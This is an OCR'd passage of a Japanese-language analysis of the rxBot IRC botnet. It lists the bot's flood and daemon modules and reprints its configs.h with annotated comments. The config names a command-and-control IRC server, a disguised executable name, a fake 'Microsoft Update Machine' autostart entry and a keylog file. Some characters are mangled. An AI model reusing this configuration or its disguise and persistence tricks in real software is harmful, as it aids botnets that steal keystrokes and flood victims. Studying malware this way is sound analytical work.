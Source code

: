 synflood.cpp	synflood.h
sysinfo.cpp	sysinfo.h
tcpflood.cpp	tcpflood.h
tcpflood2.cpp	tcpflood2.h
tftpd.cpp	tftpd.h	
threads.cpp	threads.h
visit.cpp	visit.h
wildcard.cpp	wildcard.h

defines.h
externs.h
fuctions.h
globals.h
includes.h
tcpip.h
-----


■0x06.) configs.hの内容について

　なにかのソースコードを解析する時に私はまずヘッダファイルから調べていま
す。そのプログラムの概要が判っておりある程度のプログラミング経験があるな
らば変数名や関数名からどのような処理をしているか察しがつくからです。あい
まいな部分はソースファイルを読んで裏づけをとるようにしています。なので、
まずはconfigs.hという最もな名前のヘッダファイルを読んでいきましょう。最初
から英語のコメントが書かれていたので日本語の注釈に変え幾つかは付け加えて
います。

-----
// bot configuration (不気味なものはLsass) 
int port = 6667;			// サーバポート
int port2 = 6667;			// 　　　　　　の予備用
int socks4port = 38;			// Port # sock4デーモンを実行するために  - CHANGE THIS!!!
int tftpport = 69;			// Port # tftpデーモンを実行するために
int httpport = 81;			// Port # httpデーモンを実行するために
int rloginport = 37;			// Port # rloginデーモンを実行するために
BOOL topiccmd = TRUE;			// /TOPIC コマンドを有効にするにはTRUEに設定する
BOOL rndfilename = TRUE;		// rxBotのファイル名をランダムな[a-z]に設定する
BOOL AutoStart = TRUE;			// 自動起動のレジストリキーを有効にする
char prefix = '.';			// rxBotのコマンド接頭辞(最大一文字)
int maxrand = 6;			// 乱数で決めるニックネームの桁数
int nicktype = CONSTNICK;		// NICKNAMEの種類 (rndnick.hを参照)
BOOL nickprefix = TRUE;			// NICKNAMEの接頭辞 (起動から経過した日数 & mIRC常駐者検索)

#ifdef DEBUG_LOGGING			// テスト目的でログファイルにプロトコルをダンプできる
char logfile[]="c:\\debug.txt";
#endif

#ifndef NO_CRYPT 			// 暗号化された文字列のみを使用するかバイナリが保護されないか!!

#else  					// Crypt()セットアップの為これだけの使用を勧める(これは安全じゃない)

char botid[] = "Tr0gBot";				// ボット名
char version[] = "[RxBot v7.6 modded by Tr0gd0r]";	// ボートバージョン名
char password[] = "";					// ボットネットに接続するパスワード
char server[] = ""aenigma.gotd.org"";			// 接続先のIRCサーバ
char serverpass[] = "";					// 	 パスワードが必要である場合
char channel[] = "#";					// 	 参加するチャンネル
char chanpass[] = "";					//	 	パスワードが必要である場合
char server2[] = "";					// 予備用	
char channel2[] = "";					// 
char chanpass2[] = "";					// 
char filename[] = "winmgr.exe";				// コピー先のファイル名
char keylogfile[] = "system.txt";			// キーログ用のフアイル名
char valuename[] = "Microsoft Update Machine";		// スタートアップのエントリ名
char nickconst[] = "n-";				// ボット群ニックネーム先頭の部分
char szLocalPayloadFile[]="msconfig.dat";		// ペイロードを送出したログ名